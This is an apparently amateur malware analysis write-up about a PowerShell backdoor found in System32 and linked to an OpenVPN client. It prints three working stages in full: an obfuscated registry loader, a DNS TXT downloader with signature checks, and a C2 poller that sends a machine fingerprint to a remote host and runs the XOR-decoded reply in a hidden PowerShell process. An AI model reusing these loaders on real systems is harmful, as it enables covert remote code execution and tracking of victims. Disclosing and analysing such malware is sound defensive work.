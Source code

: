 # OpenVPN Client Hardware Scraper Analysis

While performing some analysis on redacted7's auth, I discovered some strange get requests to a remote endpoint. 

![image](https://user-images.githubusercontent.com/113079075/198914096-cf76fe0a-aff5-478e-be2d-84f2bae9918a.png)

After seeing this, and looking and noticing that they come from a powershell script. I was immediately concerned. 

![image](https://user-images.githubusercontent.com/113079075/198914127-4395af66-e235-44eb-bd59-85ac64fd8bc9.png)

After doing some more research, I discovered very little about what the domain actually did. Performing a GET request to the root url returned null data, as did to the api epndpoint used by the script. The who.is database contained very little data about who it actually belonged to and what its perpose was. Upon searching the filesystem, I uncovered a rouge script inside the System32 directory. This immediately peaked my interest.

![image](https://user-images.githubusercontent.com/113079075/198914463-35f7f7cb-507e-49d8-9550-119301f75b6a.png)

The script contained the follwing code.

```
$czVZpFwMSHi=[ScriptBlock];$xXWoPBkIxK=[string];$xSQEihUBlT=[char]; icm ($czVZpFwMSHi::Create($xXWoPBkIxK::Join('', ((gp 'HKLM:\SOFTWARE\OpenVPNConnect.exewfh95b').'irUUcHjDrrj' | % { [char]$_ }))))
```

This got me excited. I could see that it was pulling something from a registry key, and executing it using ICM. Not wanting to investigate the registry key, I decided to just take the inner part out of the ICM function and run it seperately. This gave me the following script.

```
$ms = [IO.MemoryStream]::new();

function Get-Updates {
    param (
        $hostname
    )
    try {
        $dns = Resolve-DnsName -Name $hostname -Type 'TXT'
        $ms.SetLength(0);
        $ms.Position = 0;
        foreach ($txt in $dns) {
            try {
                if ($txt.Type -ne 'TXT') {
                    continue;
                }
                $pkt = [string]::Join('', $txt.Strings);
                if ($pkt[0] -eq '.') {
                    $dp = [System.Convert]::FromBase64String($pkt.Substring(1).Replace('_', '+'));
                    $ms.Position = [BitConverter]::ToUInt32($dp, 0);
                    $ms.Write($dp, 4, $dp.Length - 4);
                }
            }
            catch {
            }
        }

        if ($ms.Length -gt 136) {
            $ms.Position = 0;
            $sig = [byte[]]::new(128);
            $timestamp = [byte[]]::new(8);
            $buffer = [byte[]]::new($ms.Length - 136);
            $ms.Read($sig, 0, 128) | Out-Null;
            $ms.Read($timestamp, 0, 8) | Out-Null;
            $ms.Read($buffer, 0, $buffer.Length) | Out-Null;
            $pubkey = [Security.Cryptography.RSACryptoServiceProvider]::new();
            [byte[]]$bytarr = 6,2,0,0,0,164,0,0,82,83,65,49,0,4,0,0,1,0,1,0,171,136,19,139,215,31,169,242,133,11,146,105,79,13,140,88,119,0,2,249,79,17,77,152,228,162,31,56,117,89,68,182,194,170,250,16,3,78,104,92,37,37,9,250,164,244,195,118,92,190,58,20,35,134,83,10,229,114,229,137,244,178,10,31,46,80,221,73,129,240,183,9,245,177,196,77,143,71,142,60,5,117,241,54,2,116,23,225,145,53,46,21,142,158,206,250,181,241,8,110,101,84,218,219,99,196,195,112,71,93,55,111,218,209,12,101,165,45,13,36,118,97,232,193,245,221,180,169
            $pubkey.ImportCspBlob($bytarr);
            if ($pubkey.VerifyData($buffer, [Security.Cryptography.CryptoConfig]::MapNameToOID('SHA256'), $sig)) {
                return @{
                    timestamp = ([System.BitConverter]::ToUInt64($timestamp, 0));
                    text      = ([Text.Encoding]::UTF8.GetString($buffer));
                };
            }
        }
    }
    catch {
    }
    return $null;
}

while ($true) {
    try {
        $update = @{
            timestamp = 0;
            text      = '';
        };
        foreach ($c in (@("com", "xyz"))) {
            foreach ($a in (@("wmail", "fairu", "bideo", "privatproxy", "ahoravideo"))) {
                foreach ($b in (@("endpoint", "blog", "chat", "cdn", "schnellvpn"))) {
                    try {
                        $h = "$a-$b.$c";
                        $r = Get-Updates $h
                        if ($null -ne $r) {
                            if ($r.timestamp -gt $update.timestamp) {
                                $update = $r;
                            }
                        }
                    }
                    catch {
                    }
                }
            }
        }

        if ($update.text) {
            $job = Start-Job -ScriptBlock ([scriptblock]::Create($update.text));
            $job | Wait-Job -Timeout 14400;
            $job | Stop-Job;
        }
    }
    catch {
    }
    Start-Sleep -Seconds 30;
}
```

Now we are getting somewhere. I could see a block of data inside a function named "Get-Updates", but as far as I could see, it didnt do alot. There was some weird domain names in an infinte loop later down the script, and it was confusing what exactly they did. It looked like that it checked a list of domains using the Get-Updates function, and set the update variable depending on the timestamp. Further down the script, another script block could be found, and I decided to execute the script after replacing the execution line to write the output to console. After performing the strange DNS checks seen in the infinite loop, the following script was produced. 

```
[Security.Cryptography.SHA256]$sha = [Security.Cryptography.SHA256]::Create()
$macguid = (Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Cryptography' -Name MachineGuid).MachineGUID;
$userid = "$($env:USERDOMAIN)$($env:USERNAME)$($env:PROCESSOR_REVISION)$($env:PROCESSOR_IDENTIFIER)$($env:PROCESSOR_LEVEL)$($env:NUMBER_OF_PROCESSORS)$($macguid)";
$guid = ($sha.ComputeHash([Text.Encoding]::UTF8.GetBytes($userid)) | ForEach-Object ToString X2) -join '';
while ($true) {
    try {
        $r = Invoke-RestMethod -Uri "http://cesareurope.com/api/v1/$($guid)"
        if ($r -ne '') {
            $buf = [Convert]::FromBase64String($r);
            for ($i = 0; $i -lt $buf.Length; $i++) {
                $buf[$i] = $buf[$i] -bxor 22;
            }
            $lines = [Text.Encoding]::ASCII.GetString($buf).Split("`r`n");
            $p = [Diagnostics.Process]::new();
            $p.StartInfo.WindowStyle = 'Hidden';
            $p.StartInfo.FileName = 'powershell.exe';
            $p.StartInfo.UseShellExecute = $false;
            $p.StartInfo.RedirectStandardInput = $true;
            $p.StartInfo.RedirectStandardOutput = $true;
            $p.Start();
            $p.BeginOutputReadLine();
            foreach ($line in $lines) {
                $p.StandardInput.WriteLine($line);
            }
            $p.StandardInput.WriteLine('');
            $p.WaitForExit();
            break;
        }
    }
    catch {
    }
    Start-Sleep 2
}
```

This is it. Looks like we found the request that I was looking for. This is where it gets interesting. The data being sent to the servers endpoint doesnt look malicious at all. Just looks like hardware info, which is sent to the server. The recieved data is then base64 and xor decoded, and output to a hidden powershell window. This has been a very quick writeup as im doing this right before a big exam but whatever. Hope u enjoy whatever this does and feel free to look into it.

